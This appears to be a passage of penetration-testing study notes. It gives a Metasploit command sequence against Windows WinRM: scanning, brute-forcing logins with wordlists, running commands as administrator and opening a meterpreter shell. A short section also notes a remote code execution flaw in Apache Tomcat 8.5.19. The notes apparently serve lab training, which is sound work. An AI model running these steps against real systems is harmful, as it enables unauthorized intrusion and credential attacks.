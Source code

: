 ### Windows : WinRM

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a winrm
msf6> db_nmap -sS -sV -O 10.3.28.17
msf6> services

msf6> search type:auxiliary name:winrm
msf6> use auxiliary/scanner/winrm/winrm_auth_methods
msf6> run

msf6> use auxiliary/winrm/winrm_login
msf6> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt

msf6> use auxiliary/scanner/winrm/winrm_cmd
msf6> set username administrator
msf6> set password tinkerbell
msf6> set cmd whoami
msf6> run

msf6> use exploit/windows/winrm/winrm_script_exec
msf6> set password tinkerbell
msf6> set username administrator
msf6> set force_vbs true
msf6> run

meterpreter> sysinfo
```

### Windows : Apache Tomcat

#### Definition

* Also known as Tomcat server, is a popular, free and open source Java servlet web server.
* It is used to build and host dynamic websites and web applications based on the Java software platform.
* Apache Tomcat utilize the HTTP protocol to facilitate the underlying communication between the server and clients.
* It runs on TCP port 8080 by default.
* The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
* The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.
* **Apache Tomcat V8.5.19** is vulnerable to a remote code execute vulnerability that could potentially allow an attacker to upload and execute a JSP (Java Service Page) payload in order to gain remote access to the target server.
* We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.
